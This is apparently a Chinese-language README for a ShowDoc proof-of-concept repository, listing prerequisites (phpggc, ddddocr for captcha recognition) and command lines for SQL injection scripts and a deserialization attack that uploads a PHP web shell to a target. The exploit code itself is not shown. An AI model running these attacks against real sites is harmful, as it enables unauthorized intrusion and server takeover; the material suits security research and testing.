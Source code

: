 # showdoc_poc
## 需要条件

- phpggc: 用于生成序列化数据，而且需要设置为系统变量 (https://github.com/ambionics/phpggc)
- ddddocr: pip 需要安装ddddocr用于orc识别 (pip install ddddocr)

## 使用方法

### 注入

```
python3 sqli.py http://target
python3 sqliremote.py http://target http://ocr_server
```

### 反序列化

```
python3 unser.py http://target (远程shell文件名)rshell.php (本地shell文件路径)shell.php xxxxxxx(token)xxxxxxxx
```

## 注意⚠️
本脚本仅为demo学习使用，不一定适用于所有环境
注入脚本流量大，对网站造成损失概不负责
